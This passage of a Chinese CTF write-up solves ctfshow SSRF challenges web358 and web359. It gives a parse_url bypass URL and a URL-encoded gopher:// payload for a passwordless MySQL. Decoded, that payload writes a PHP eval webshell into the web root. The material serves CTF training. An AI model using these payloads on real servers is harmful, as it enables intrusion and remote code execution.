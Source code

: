![image-20240206212348241](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240206212348241.png)

```
url=http://r.5k7kuy.ceye.io/flag.php
```

## web358(parse_url利用)

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

要求`http://ctf.`开头，show结尾

payload

```
http://ctf.@127.0.0.1/flag.php?show
```

## web359(gopher打无密码mysql)

check.php关键代码

```php
if(isset($_POST['returl'])){
        $url = $_POST['returl'];
    if(preg_match("/file|dict/i",$url)){
        die();
    }
            echo _request("$url");

}
```

我们可以想到数据库 那我们直接通过 gopher 攻击mysql即可

python2 gopherus.py --exploit mysql

利用工具生成payload

![image-20240207193533482](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240207193533482.png)

然后将下划线后面的在进行url编码生成最终payload

```
gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2545%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2522%253c%253f%2570%2568%2570%2520%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2531%255d%2529%253b%253f%253e%2522%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2527%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2531%252e%2570%2568%2570%2527%2501%2500%2500%2500%2501
```
